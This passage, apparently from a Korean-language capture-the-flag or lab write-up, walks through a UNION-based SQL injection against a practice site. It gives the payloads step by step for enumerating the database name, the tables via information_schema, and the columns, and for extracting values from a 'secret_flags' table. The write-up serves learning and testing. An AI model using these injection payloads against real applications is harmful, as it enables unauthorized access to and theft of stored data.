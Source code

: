 > 데이터베이스 이름 추출
```html
13+union+select+database(),2,3,4,5,6,7,8--+
```

![union select](./screenshots/spec2_database.png)

> 데이터베이스 이름 **spec2**

- 이제 `information_schema.tables`를 이용해 데이터베이스 spec2 내의 테이블 목록을 확인해보았다.

```html
13+union+select+(select+table_name+from+information_schema.tables+where+table_schema='spec2'+limit+2,1),2,3,4,5,6,7,8--+
```

- 쿼리 실행 결과, 테이블 이름으로 **secret_flags**가 출력되었고, 이후 이 테이블을 대상으로 컬럼 및 데이터를 조회할 수 있었다.

- 이후 `information_schema.columns`를 사용하여 `secret_flags` 테이블의 컬럼명을 확인하기 위해 다음과 같은 쿼리를 입력하였다.

```html
13+union+select+(select+column_name+from+information_schema.columns+where+table_schema='spec2'+and+table_name='secret_flags'+limit+?,1),2,3,4,5,6,7,8--+
```

- 쿼리 실행 결과, 아까랑 같은 **id, flag_name, flag_value**라는 컬럼명을 확인할 수 있었다.

- 이후 `secret_flags` 테이블에서 실제 플래그 값을 추출하기 위해, `UNION SELECT`와 서브쿼리를 조합한 다음의 SQL 인젝션을 시도하였다.

```html
13+union+select+(select+flag_name+from+secret_flags+limit+5,1),2,3,4,5,6,7,8--+

13+union+select+(select+flag_value+from+secret_flags+limit+5,1),2,3,4,5,6,7,8--+
```

